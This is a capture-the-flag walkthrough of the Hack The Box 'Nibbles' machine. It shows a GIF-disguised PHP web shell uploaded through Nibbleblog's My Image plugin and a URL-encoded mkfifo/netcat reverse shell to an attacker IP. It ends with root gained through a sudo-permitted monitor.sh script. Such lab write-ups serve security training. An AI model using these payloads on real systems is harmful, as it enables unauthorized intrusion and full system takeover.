 # HTB - Nibbles
## OS - Linux

I started with an nmap scan as usual. IP address of Nibbles is 10.10.10.75.

```$nmap -sC -sV -oN nibbles.nmap 10.10.10.75
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-11 16:40 PST
Nmap scan report for 10.10.10.75
Host is up (0.092s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.87 seconds
```
 
Ports 22 and 80 are open. 

I browsed to the index page of the web site. There was only "Hello World" there. That seemed odd, so I viewed source. It had a comment.

```
<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

Went to http://10.10.10.75/nibbleblog. There was a blog post and some links but nothing seemed interesting. It was "powered by nibbleblog".

I ran dirbuster to find any files, but got nothing other than the icons folder. WHile that is going, I searched about nibbleblog.

I haven't heard of nibbleblog, but the source code is at https://github.com/dignajar/nibbleblog. There is no default password.

I also see a link - https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/. Once we login, we can inject our own php shell and run commands.


Tring a bunch of passwords 5 times makes us blacklisted. So we have to wait until it is cleared. After a few tries, I looked up online and found the credentials were admin/nibbles.

After logging into the admin dashboard at http://10.10.10.75/nibbleblog/admin.php, browse to plugins folder and try to upload a php reverse shell using "My image". Something like this:
http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image

Tried using a simple php command like:
```
GIF8;
<?php echo system($_REQUEST['cmd']); ?>
```
When I uploaded this image, I got some warnings, but when I browsed to 
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=id, I see

```
GIF8; uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler) uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

So cmd injection worked. 

Now instead of the id command, changed the GET request to POST in Burp Repeater, and tried the following arg to get a reverse shell.

rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.26+1234+>/tmp/f

On the nc listener, I see I got a response.

```
$nc -lvnp 1234
listening on [any] 1234 ...

connect to [10.10.14.26] from (UNKNOWN) [10.10.10.75] 43960
/bin/sh: 0: can't access tty; job control turned off
$ $
```

Then it's time to browse to the user's home folder to get the flag.

```
$ which python
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ ls
ls
db.xml	image.php
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home/nibbler
nibbler@Nibbles:/home/nibbler$ ls
personal  personal.zip	user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt
```

To get root access, I first try "sudo -l".

```
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

nibbler can run a ~/personal/stuff/monitor.sh script as root. We can use this to get a bash shell.
We create a monitor.sh script in that folder. vi is tricky because pressing escape doesn't escape out of insert mode. So I had to connect back through nc again, and this time, tried 
```
echo "bash" > monitor.sh
```
That did not work and I could not edit the script through nc. So I created a monitor.sh on my attacker host with the content:
```
#!/bin/sh
bash
```
and ran SimpleHTTPServer to wget the file.

Then 
chmod +x monitor.sh

and 

sudo ./monitor.sh

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
sudo ./monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
root@Nibbles:/home/nibbler/personal/stuff# ls
ls
monitor.sh
root@Nibbles:/home/nibbler/personal/stuff# cd /root
cd /root
root@Nibbles:~# ls
ls
root.txt
root@Nibbles:~# cat root.txt
```


